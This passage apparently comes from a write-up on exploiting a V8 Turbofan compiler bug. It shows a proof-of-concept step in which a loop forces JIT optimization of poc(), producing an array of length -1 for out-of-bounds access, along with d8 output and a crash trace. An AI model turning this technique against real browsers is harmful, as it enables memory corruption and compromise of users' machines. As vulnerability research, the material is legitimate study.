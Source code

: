 If you run this as is, you'll get an error. Because the bugs we're dealing with only happen in the compilation phase, the code still gets *interpreted* correctly. We need to avoid sending -1 to the Array constructor until the code has been compiled.

```js
// function poc(needle) {...}

// g -> f
console.log("Before optimization: " + poc("f").length);

// Cause Turbofan to optimize poc()
for (let i = 0; i < 40000; i++) {
    // g -> f
    poc("f")
}

let oob = poc("g")
console.log("After optimization: " + oob.length);
```

Running the poc now will output the following:

```
$ ./d8  poc.js
Before optimization: 1
After optimization: -1
```

We've done it! the `oob` array has a length of -1, which will allow us to access elements far outside it's capacity. Unfortunately, actually attempting to read any of these elements will likely cause a crash:

```
$  ./v8-binary/d8 --shell poc.js
Before optimization: 1
After optimization: -1
V8 version 9.1.269.36
d8> oob[0]
undefined
d8> oob[1]
Stacktrace:
   ptr1=0x24b1082439c9
    ptr2=(nil)
    ptr3=(nil)
    ptr4=(nil)
    failure_message_object=0x7ffccccb5ec0

==== JS stack trace =========================================

    0: ExitFrame [pc: 0x24b1000b2258]
    1: StubFrame [pc: 0x24b10013773e]
Security context: 0x24b10821017d <JSObject>
    2: Stringify(aka Stringify) [0x24b10812bf35] [d8-stringify:38] [bytecode=0x24b108213681 offset=102](this=0x24b1080423b5 <undefined>,0x24b1082439c9 <Map(HOLEY_SMI_ELEMENTS)>,4)
...
```
